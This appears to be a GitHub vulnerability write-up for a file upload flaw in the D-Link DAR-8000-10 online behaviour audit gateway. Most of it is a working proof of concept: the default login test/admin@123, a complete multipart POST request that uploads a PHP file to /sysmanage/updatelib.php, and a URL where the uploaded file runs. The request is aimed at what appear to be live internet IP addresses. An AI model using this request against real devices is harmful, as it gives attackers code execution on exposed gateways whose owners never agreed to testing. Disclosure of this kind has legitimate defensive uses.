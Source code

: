 The full version of the D-LINK DAR-8000-10 series online behavior audit gateway has a file upload vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official： http://www.dlink.com.cn/

version:DAR-8000-10  DAR V31R02B1413C

Vulnerability Path ：/sysmanage/updatelib.php

Ip：https://59.60.19.174:8443/

Log in to the system using the default password：test/admin@123

POC：
```
POST /sysmanage/updatelib.php? HTTP/1.1
Host: 60.22.74.195:8443
Cookie: PHPSESSID=eb22543a6a7b4ffd10816d515b505f7f
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 717
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="ck"

radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="file_upload"; filename="phpinfo.php"
Content-Type: application/octet-stream

<?php phpinfo()?>
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="hid_tftp_ip"


-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="hid_ftp_ip"


-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="mode"

set
-----------------------------42328904123665875270630079328—
```

<img width="670" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/b8eb471f-15ad-473c-8950-d3c4a09b5fd6">

https://59.60.19.174:8443/home/phpinfo.php

<img width="714" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/060f093e-f354-4d9e-91bd-e232632a04b6">
